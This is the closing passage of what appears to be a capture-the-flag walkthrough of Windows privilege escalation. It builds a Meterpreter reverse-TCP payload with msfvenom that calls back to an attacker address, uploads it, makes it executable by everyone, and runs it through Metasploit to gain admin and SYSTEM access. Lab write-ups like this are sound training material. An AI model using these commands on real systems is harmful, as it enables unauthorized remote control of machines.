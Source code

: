 Now, the final step is to see what kind of privileges the user, mayor has. Let's create another payload and upload it to the target machine, then we can try to run it as mayor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.87.151 LPORT=6500 -f exe -o rTCP.exe
```
```bash
upload rTCP.exe .
```
We also need to make sure that rTCP.exe can be run by everyone, let's use icacls for that:
```bash
icacls rTCP.exe /grant Everyone:(F)
```
Now, we are ready to configure our multi handler first and then run_as modules:

![Final Exp](finalRootExp.png)
![Runas](msfconsolerunas.png)

After running the last module, we'll receive a meterpreter session and if we check the user id, we'll see that we have admin privileges:

![Admin User](adminUser.png)

Now, we can go to Desktop and look for the root flag:

![Root Flag](rootFlag.png)

Since we are admin, we can try to become the system by using ```getsystem``` command:

![Getsystem](getsystem.png)

That was a long journey and I hope you enjoyed this walkthrough.
Thank you for reading.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
